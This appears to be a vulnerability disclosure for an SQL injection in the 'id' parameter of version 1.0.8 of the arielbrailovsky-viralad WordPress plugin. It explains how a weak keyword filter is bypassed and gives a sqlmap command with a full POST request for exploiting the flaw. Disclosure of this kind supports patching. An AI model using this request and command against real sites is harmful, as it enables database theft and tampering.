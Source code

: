 ### The data update interface of the wordpress plugin arielbrailovsky-viralad has a sql injection vulnerability.

**Official website**: https://wordpress.org/plugins/arielbrailovsky-viralad/

**Version**：1.0.8

**Route**：/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php

**API function**: update records

**Injection parameters**: id

**Request method**：POST

**Complete vulnerability trigger related interfaces and parameters**：[/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php]、[id=88&text=123ssss&url=http%3A%2F%2F123&active=0&priority=5&ffamily=Arial&fsize=11&fcolor=%230f0f0f&bgcolor=%23f0f0f0&bdcolor=%23555555&talign=left&fitalic=1&funderline=0&fbold=0&nocache=0.384170610408046&security=2vnxf31d4hetw6ubkp75]

#### 1.Vulnerability analysis

In the anuncio.php file, when the request method is post and the request parameter action is empty, the incoming ID will be directly obtained and processed by the limpia function. If the database contains the record, it will be directly spliced into the update sql statement to perform the record update operation.

![image-20250302203537209](assets/image-20250302203537209.png)

However, the limpia function only performs simple keyword filtering, which can be bypassed by attackers (such as case, keyword replacement, blind injection, etc.).

![image-20250302203644793](assets/image-20250302203644793.png)

Therefore, attackers can easily construct malicious sql injection payloads for exploitation.

#### 2.Vulnerability verification and exploitation

You can use sqlmap to verify the vulnerability：python sqlmap.py -r 1.txt --batch --dbms=mysql

The specific injection data packets are as follows (need to replace nocache, security in the URL and cookies in the request header after logging in)

```
POST /wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php HTTP/1.1
Host: wp3:82
Content-Length: 234
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://wp3:82
Referer: http://wp3:82/wp-admin/options-general.php?page
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wordpress_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C6a60c9d06464a51a9060e3fdf0020e0b; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C0abf1d7f8bfba5dca9d1f96d15294f9d; wp-settings-1=m6%3Do%26m9%3Do; wp-settings-time-1=1740904532; PHPSESSID=irmjinoeft5778hb5e97i155j6
Connection: close

id=88&text=123ssss&url=http%3A%2F%2F123&active=0&priority=5&ffamily=Arial&fsize=11&fcolor=%230f0f0f&bgcolor=%23f0f0f0&bdcolor=%23555555&talign=left&fitalic=1&funderline=0&fbold=0&nocache=0.384170610408046&security=2vnxf31d4hetw6ubkp75
```

![image-20250302203406959](assets/image-20250302203406959.png)
